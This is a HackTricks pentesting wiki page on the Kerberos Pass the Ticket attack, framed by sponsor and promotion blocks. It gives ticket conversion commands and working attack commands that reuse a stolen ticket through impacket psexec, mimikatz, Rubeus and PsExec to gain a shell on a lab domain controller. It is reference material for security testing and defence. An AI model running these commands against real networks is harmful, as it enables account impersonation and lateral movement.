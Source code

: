 # Pass the Ticket

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

{% hint style="danger" %}
<img src="../../.gitbook/assets/image (307).png" alt="" data-size="original">

Through Security Skills as a Service, we help organizations to **defend against the Dark Hacking Arts**. Security Skills as a Service is an offensive cybersecurity consultancy model that combines an Intelligent Platform with the top-class, globally distributed, offensive security engineers, delivering **high-quality penetration testing results. Security Hubs** bring together offensive penetration testing tactics with human behavioral science, providing real-time insights into threat actors' tradecraft and a **complete assessment of any risks**.

{% embed url="https://securityhubs.io/" %}
{% endhint %}

## Pass The Ticket (PTT)

This kind of attack is similar to Pass the Key, but instead of using hashes to request a ticket, the ticket itself is stolen and used to authenticate as its owner.

**Read**:

* [Harvesting tickets from Windows](../../network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows.md)
* [Harvesting tickets from Linux](../../network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-linux.md)

### **Swaping Linux and Windows tickets between platforms**

The [ticket\_converter](https://github.com/Zer1t0/ticket\_converter) script. The only needed parameters are the current ticket and the output file, it automatically detects the input ticket file format and converts it. For example:

```
root@kali:ticket_converter# python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi
root@kali:ticket_converter# python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```

[Kekeo](https://github.com/gentilkiwi/kekeo), to convert them in Windows. This tool was not checked due to requiring a license in their ASN1 library, but I think it is worth mentioning.

### Pass The Ticket Attack

{% code title="Linux" %}
```bash
export KRB5CCNAME=/root/impacket-examples/krb5cc_1120601113_ZFxZpK 
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Windows" %}
```bash
#Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi"
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi
klist #List tickets in cache to cehck that mimikatz has loaded the ticket
.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```
{% endcode %}

{% hint style="danger" %}
<img src="../../.gitbook/assets/image (307).png" alt="" data-size="original">

Through Security Skills as a Service, we help organizations to **defend against the Dark Hacking Arts**. Security Skills as a Service is an offensive cybersecurity consultancy model that combines an Intelligent Platform with the top-class, globally distributed, offensive security engineers, delivering **high-quality penetration testing results. Security Hubs** bring together offensive penetration testing tactics with human behavioral science, providing real-time insights into threat actors' tradecraft and a **complete assessment of any risks**.

{% embed url="https://securityhubs.io/" %}
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
